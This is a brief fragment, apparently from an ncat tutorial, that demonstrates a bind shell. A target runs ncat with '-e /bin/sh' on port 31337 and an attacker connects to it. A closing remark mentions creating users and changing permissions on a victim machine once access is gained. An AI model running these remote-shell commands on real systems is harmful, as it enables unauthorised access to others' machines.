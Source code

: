 *Target*
```console
$ ncat -l -p 31337 -e /bin/sh
```
*Attacker*
```console
$ ncat -v localhost 31337
```

Extra: It is even possible to use reverse or bind shells between Windows and Linux machines. Once you gained access to the victim machine, you can create users and change permissions. See https://subscription.packtpub.com/book/networking-and-servers/9781849519960/1/ch01lvl1sec06/top-3-features-youll-want-to-know-about for more information.